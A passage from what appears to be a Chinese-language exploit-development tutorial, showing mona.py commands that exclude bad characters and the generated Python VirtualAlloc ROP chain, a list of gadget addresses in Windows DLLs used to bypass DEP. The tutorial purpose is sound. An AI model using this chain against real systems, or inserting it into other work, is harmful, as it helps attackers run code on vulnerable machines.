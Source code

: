 但是这里面包含了坏字符，我们需要进行排除：

```php
!mona rop -cpb "\x00\x09\x0a\x0b\x0c\x0d\x20\x2f\x3f"
```

运行`mona rop`后，rop\_chains.txt文件我们将看到无法生成字符串，因为没有指令可以生成没有坏字符的字符串。  
默认情况下，当 mona 搜索 ROP 字符串时，它会丢弃操作系统自己的模块来查找gadget。在本例中，我们将强制 mona使用其他模块来查看是否能找到任何有效的字符串。直接在全部模块找可利用的Virtualalloc ROP：

```php
!mona rop -cpb "\x00\x09\x0a\x0b\x0c\x0d\x20\x2f\x3f" -m *.dll
```

这一次在rop\_chains.txt中，我们发现了以下内容：

```python
*** [ Python ] ***

  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x77c34fcd,  # POP EAX # RETN [msvcrt.dll] 
      0x77dd121c,  # ptr to &VirtualAlloc() [IAT ADVAPI32.dll]
      0x77e82d1c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] 
      0x77f53564,  # XCHG EAX,ESI # RETN [GDI32.dll] 
      #[---INFO:gadgets_to_set_ebp:---]
      0x77c31a04,  # POP EBP # RETN [msvcrt.dll] 
      0x77df965b,  # & jmp esp [ADVAPI32.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x77eed7ae,  # POP EAX # RETN [RPCRT4.dll] 
      0xffffffff,  # Value to negate, will become 0x00000001
      0x76fb1ded,  # NEG EAX # RETN [winrnr.dll] 
      0x77f301e4,  # XCHG EAX,EBX # RETN [GDI32.dll] 
      #[---INFO:gadgets_to_set_edx:---]
      0x7c87f229,  # POP EAX # RETN [kernel32.dll] 
      0xa2800fc0,  # put delta into eax (-> put 0x00001000 into edx)
      0x7c87fa01,  # ADD EAX,5D800040 # RETN 0x04 [kernel32.dll] 
      0x77c58fbc,  # XCHG EAX,EDX # RETN [msvcrt.dll] 
      0x41414141,  # Filler (RETN offset compensation)
      #[---INFO:gadgets_to_set_ecx:---]
      0x77eed7ae,  # POP EAX # RETN [RPCRT4.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x5ad7e91c,  # NEG EAX # RETN [uxtheme.dll] 
      0x77c14001,  # XCHG EAX,ECX # RETN [msvcrt.dll] 
      #[---INFO:gadgets_to_set_edi:---]
      0x7c902563,  # POP EDI # RETN [ntdll.dll] 
      0x77e8d224,  # RETN (ROP NOP) [RPCRT4.dll]
      #[---INFO:gadgets_to_set_eax:---]
      0x7c87fbcb,  # POP EAX # RETN [kernel32.dll] 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x7e423ad9,  # PUSHAD # RETN [USER32.dll] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
```
